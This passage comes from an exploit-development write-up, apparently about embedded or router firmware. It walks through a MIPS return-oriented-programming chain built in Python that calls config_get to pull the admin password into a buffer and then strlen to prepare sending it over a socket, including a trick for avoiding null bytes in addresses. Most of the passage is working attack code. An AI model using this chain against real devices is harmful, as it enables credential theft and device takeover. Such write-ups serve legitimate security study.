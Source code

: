 The only annoying thing about the address of the *config_get* function is that it is at address *0x800089e4*, which would contain a null byte if we sent it as is, so we will need to handle this with our gadgets. Lets first set the arguments:

```
-python
# Set a0 to be the id of the admin password
# 0x000153d0: lw $a0, 4($s0); lw $ra, 4($sp); addiu $v0, $zero, 2; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8; 
chain += p32(0x800089e4 + 0x7b58) # s0
chain += p32(0x11e568 + base_address)

# 0x0011e568: lw $a1, ($sp); lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += p32(pwd_buffer)
chain += b'b' * 0x8
chain += p32(0x137960 + base_address)
```

As you can see, we have set *$a0* to contain the address of 0x1010200 (we set *$s0* to be the address of 0x1010200 - 4 earlier, so this is why 4($s0) get the correct address). We also set *$a1* to be the address of the buffer we want to store the password. 

We have also set *$s0* to contain the address of the *config_get* function + 0x7b58, this means we can send it as it no longer contains a null byte. We can use the following gadget to subtract the extra we added on:

```
-python
## The address of config load contains a null byte, so we will have to do some subtracting (s0 is set to address of function + 0x7b58)
# 0x00137960: addiu $v0, $s0, -0x7b58; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x15114 + base_address) # ra
```

With the correct address in *$v0*, we can now use a similar **jalr** containing gadget to call the *config_get* function - but as we are not worried about the return value, we can use the cleaner gadget that clears *$v0*:

```
-python
## Now call config get
# 0x00015114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 0x4
chain += p32(0x19bc70 + base_address) # ra
```

### strlen

**size_t strlen(const char *str)**

With the admin password safely stored in our buffer, we can now work out how many bytes we need to send over the socket. All we need to do is move the address of our buffer into *a0*, and call *strlen*. We start by populating *$a0*:

```
-python
# Regain control of s0
# 0x0019bc70: lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(pwd_buffer) # s0
chain += p32(0xb018c + base_address) # ra

# Move pwd buffer address into a0
# 0x000b018c: move $a0, $s0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x57864 + base_address) # ra
```
